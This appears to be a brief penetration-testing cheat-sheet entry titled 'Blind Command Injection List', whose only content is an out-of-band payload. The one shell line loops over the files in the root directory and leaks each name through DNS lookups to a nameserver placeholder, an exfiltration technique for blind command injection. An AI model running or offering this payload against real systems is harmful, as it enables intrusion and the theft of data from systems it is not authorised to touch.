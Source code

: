 # Blind Command Injection List

Search Tag(s): #helpers #command-injection

## Out-of-Band

```
for file in $(ls /); do host "$file.<dns_nameserver_IP>"; done
```